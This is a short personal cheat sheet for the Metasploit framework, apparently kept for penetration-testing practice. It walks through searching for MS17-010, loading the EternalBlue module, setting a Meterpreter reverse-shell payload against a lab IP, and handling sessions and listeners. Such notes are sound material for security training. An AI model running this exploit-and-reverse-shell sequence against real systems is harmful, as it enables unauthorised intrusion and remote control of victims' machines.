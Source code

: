 # 💢 metasploit framework
Tags: #💢
Related to: 
See also: 
Previous: [[Exploitation Tools]]

## Description
Metasploit is a penetration testing platform that enables you to find, exploit, and validate vulnerabilities. It provides the infrastructure, content, and tools to perform penetration tests and extensive security auditing and thanks to the open source community and Rapid7’s own hard working content team, new modules are added on a regular basis, which means that the latest exploit is available to you as soon as it’s published.

## Usage Examples

	msfconsole

###  Search for exploit
	search MS17-010
	search cve:2009 type:exploit

###  Use exploit
	use exploit/windows/smb/ms17_010_eternalblue

###  Show module options
	show options	// Doesn't show payloads.

###  Set payload
	set payload windows/x64/meterpreter/reverse_tcp

###  Set LHOST & RHOST
	set LHOST tun0
	set RHOST 10.129.2.85

###  Exploit vulnerability
	exploit -j		// Run in the context of a job.

###  List all active sessions
	sessions -l

###  Interact with session
	sessions -i 1

###  Get a shell.
	shell

### Back to Meterpreter
	exit

### Background session
	<Ctrl+Z>

### Set up a handler
	use exploit/multi/handler
	set payload windows/x64/meterpreter/reverse_http
	show options
	set LHOST tun0
	set LPORT 8001
	exploit -j

# References
- https://metasploit.com/
- https://community.rapid7.com/docs/DOC-1567
